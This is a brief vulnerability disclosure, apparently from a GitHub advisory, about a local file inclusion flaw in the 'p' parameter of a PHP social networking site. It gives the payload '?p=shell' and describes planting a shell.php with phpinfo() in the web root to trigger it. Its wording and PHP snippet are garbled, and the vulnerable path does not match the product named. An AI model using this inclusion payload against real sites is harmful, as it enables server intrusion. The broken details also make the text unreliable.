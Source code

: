 # Simple Social Networking Site v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: ip/vloggers_merch/?p=

Vulnerability location: ip/vloggers_merch/?p=, p

Payload: ip/vloggers_merch/?p=shell


We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

